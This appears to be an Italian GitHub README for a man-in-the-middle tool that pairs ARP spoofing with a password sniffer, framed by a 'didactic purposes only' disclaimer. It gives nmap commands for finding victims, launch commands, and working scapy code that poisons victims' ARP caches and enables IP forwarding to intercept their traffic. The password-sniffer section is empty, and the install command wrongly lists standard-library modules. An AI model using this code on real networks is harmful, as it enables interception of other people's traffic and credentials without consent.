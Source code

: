 # MITM
MITM con password sniffer
## Premessa
Questo codice è stato sviluppato per il solo scopo didattico. Si declina ogni responsabilità per un eventuale uso improprio.
## Funzionamento:
Il funzionamento si basa sul [Man-In-The-Middle](https://it.wikipedia.org/wiki/Attacco_man_in_the_middle) che viene effettuato tramite un attacco di tipo [ARP spoofer](https://it.wikipedia.org/wiki/ARP_poisoning) grazie al quale è possibile identificarsi su una rete con l'indirizzo [MAC](https://it.wikipedia.org/wiki/Indirizzo_MAC) di un altra macchina.
### Frame ARP
Il frame ARP è composto da diverse parti, alcune di esse sono:
* *op*: indica l'operazione che svolge il frame differenziando tra:
  * 1 = who-has, indica un ARP Request
  * 2 = is-at, indica un ARP Reply
* *hwdst*: contiene l'indirizzo MAC di destinazione
* *pdst*: contiene l'indirizzo IP di destinazione
* *hwsrc*: contiene l'indirizzo MAC sorgente
* *psrc*: contiene l'indirizzo IP sorgente
## Librerie
Per poter avviare il codice bisogna installare le seguenti librerie:
* scapy
* sys
* time
* os
* re
* urllib

Si possono installare col seguente comando:
```bash
pip install scapy, sys, time, os, re, urllib
```
Se c'è bisogno di ottenere gli indirizzi IP delle vittime si può scansionare la rete con [nmap](https://nmap.org/) usando il seguente comando e sostituendo networkIP con l'indirizzo di rete e CIDR con il CIDR della rete:
```bash
nmap -O networkIP/CIDR
```

Esempio:
```bash
nmap -O 192.168.0.0/24
```
## Avvio
Per avviare l'attacco bisogna aprire due terminali nella cartella in cui si trovano i due file.
Nel primo bisogna eseguire il seguente comando sostituendo i due indirizzi con quelli delle vittime:
```bash
python3 ARPspoofer.py indirizzoIP1 indirizzoIP2
```

Esempio:
```bash
python3 ARPspoofer.py 192.168.0.1 192.164.0.234
```
# Codice
Di verranno seguito spiegati i codici dell'ARP spoofer e del Password sniffer.
## ARP spoofer
Spiegazione del codice contenuto in *ARPspoofer.py*.
### Import
```python
import scapy.all as scapy
import sys, time, os
from scapy.layers.l2 import ARP, Ether
```

Per ottenere gli IP inseriti in riga di comando:
```python
target_ip = str(sys.argv[2])
router_ip = str(sys.argv[1])
```

Loop:
```python
try:
    #Abilita l'IP Forwarding
    os.system("echo 1 >> /proc/sys/net/ipv4/ip_forward")
    while True:
        spoof(router_ip, target_ip, router_mac, target_mac)
        time.sleep(2)

#Interrompe il loop tramite tastiera
except KeyboardInterrupt:
    #Disabilita l'IP Forwarding
    os.system("echo 0 >> /proc/sys/net/ipv4/ip_forward")
    print('Closing ARP Spoofer')
    exit(0)
```
### Funzioni
La funzione _get\_mac\_address(ip)_ ottiene l'indirizzo MAC collegato all'indirizzo IP inserito utilizzando delle ARP Request generate con scapy:
```python
#Ottiene l'indirizzo MAC
def get_mac_address(ip):

    #Crea il layer Ethernet con destinazione l'indirizzo di broadcast
    broadcast_layer = Ether(dst='ff:ff:ff:ff:ff:ff')

    #Crea il layer ARP con IP di destinazione uguale all'IP inserito
    arp_layer = ARP(pdst=ip)

    #Incapsula il layer ARP nel layer Ethernet e crea il pacchetto
    get_mac_packet = broadcast_layer/arp_layer

    #Genera l'ARP Request e riceve l'ARP Reply 
    answer = scapy.srp(get_mac_packet, timeout=2, verbose=False)[0]

    #Torna l'indirizzo MAC ricevuto
    return answer[0][1].hwsrc
```
La funzione _spoof(router_ip, target_ip, router_mac, target_mac)_ genera e invia i frame ARP "avvelenati" alle vittime con scapy:
```python
#Invia i frame avvelenati alle vittime
def spoof(router_ip, target_ip, router_mac, target_mac):

    #Crea un frame con destinatario la vittima1 fingendosi la vittima2 
    packet1 = ARP(op=2, hwdst=router_mac, pdst=router_ip, psrc=target_ip)

    #Crea un frame con destinatario la vittima1 fingendosi la vittima2
    packet2 = ARP(op=2, hwdst=target_mac, pdst=target_ip, psrc=router_ip)

    #Invia i pacchetti
    scapy.send(packet1)
    scapy.send(packet2)
```
## Password sniffer
Spiegazione del codice contenuto in *sniffer.py*.
### Import

```python

```

```python

```
